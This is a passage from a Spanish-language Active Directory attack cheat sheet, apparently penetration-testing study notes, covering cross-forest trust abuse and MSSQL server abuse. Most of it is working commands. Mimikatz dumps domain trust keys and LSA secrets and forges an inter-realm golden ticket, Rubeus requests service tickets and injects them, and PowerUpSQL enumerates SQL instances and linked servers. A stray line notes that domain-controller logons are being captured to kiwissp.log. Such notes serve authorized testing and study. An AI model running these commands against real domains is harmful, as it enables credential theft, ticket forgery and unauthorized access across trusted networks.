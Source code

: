 Ahora todos los inicios de sesión en el controlador de dominio se registran en -> C:\Windows\System32\kiwissp.log

## Ataques entre Bosques

### Tickets de Confianza

_¿QUÉ ES DIS?: Si tenemos derechos de administrador de dominio en un dominio que tiene una relación de confianza bidireccional con un En otro bosque, podemos obtener la clave de confianza y forjar nuestro propio TGT interreino.

:warning: ¡El acceso que tendremos estará limitado a lo que nuestra cuenta DA tenga configurado en el otro bosque!

Usando Mimikatz:

```powershell
#Volcar la clave de confianza
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#Forjar un TGT entre reinos usando el ataque Golden Ticket
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```

:exclamation: Tickets -> formato .kirbi

Luego, solicita un TGS al bosque externo para cualquier servicio que use el TGT entre reinos y accede al recurso.

Usando Rubeus:

```powershell
.\Rubeus.exe asktgs /ticket:<kirbifile> /service:"SPN del servicio" /ptt
```

### Abuso de servidores MSSQL

- Enumerar instancias MSSQL: `Get-SQLInstanceDomain`
- Comprobar accesibilidad como usuario actual:

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

- Recopilar información sobre la instancia: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
- Abuso de enlaces de bases de datos SQL: \
_¿QUÉ ES ESTO?: Un enlace de base de datos permite que un servidor SQL acceda a otros recursos como otros servidores SQL. Si tenemos dos servidores SQL enlazados, podemos ejecutar procedimientos almacenados en ellos. Los enlaces de bases de datos también funcionan en toda la confianza de bosques.

Comprobar enlaces de bases de datos existentes:

```powershell
#Comprobar enlaces de bases de datos existentes:
#PowerUpSQL:
Get-SQLServerLink -Instance <SPN> -Verbose

#Consulta MSSQL:
select * from master..sysservers
```

